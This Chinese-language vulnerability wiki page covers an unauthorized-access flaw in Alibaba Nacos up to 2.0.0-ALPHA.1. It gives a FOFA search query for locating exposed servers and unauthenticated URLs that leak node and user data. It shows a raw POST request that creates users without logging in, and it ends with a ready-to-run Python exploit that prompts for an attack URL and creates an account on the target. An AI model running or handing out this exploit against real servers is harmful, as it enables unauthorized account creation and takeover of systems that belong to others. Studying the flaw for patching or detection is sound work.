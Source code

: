 # Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

> [!NOTE]
>
> Nacos <= 2.0.0-ALPHA.1

## FOFA

> [!NOTE]
>
> title="Nacos"

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](http://wikioss.peiqi.tech/vuln/nacos-1.png)

## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论

https://github.com/alibaba/nacos/issues/1105

![](http://wikioss.peiqi.tech/vuln/nacos-2.png)

![](http://wikioss.peiqi.tech/vuln/nacos-3.png)

这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问

![](http://wikioss.peiqi.tech/vuln/nacos-4.png)

这里的请求url简化为

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=

退出用户后在前台访问这个 url

![](http://wikioss.peiqi.tech/vuln/nacos-5.png)

可以发现以及泄露了 **ip节点** 等数据

同样我们查看用户列表的请求并在前台访问

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9

![](http://wikioss.peiqi.tech/vuln/nacos-7.png)

![](http://wikioss.peiqi.tech/vuln/nacos-6.png)

这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包

![](http://wikioss.peiqi.tech/vuln/nacos-8.png)

返回下列创建成功

```
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```

![](http://wikioss.peiqi.tech/vuln/nacos-9.png)

![](http://wikioss.peiqi.tech/vuln/nacos-10.png)

看到有文章说要加上**User-Agent请求头**

```
User-Agent: Nacos-Server
```

但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

> [!NOTE]
>
> 同样的原理也可以用于修改密码添加配置等

## 漏洞利用POC

> [!NOTE]
>
> 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
>
> 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/nacos-11.png)

## Goby & POC

> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Alibaba_Nacos_Add_user_not_authorized.json

![](http://wikioss.peiqi.tech/vuln/nacos-14.png)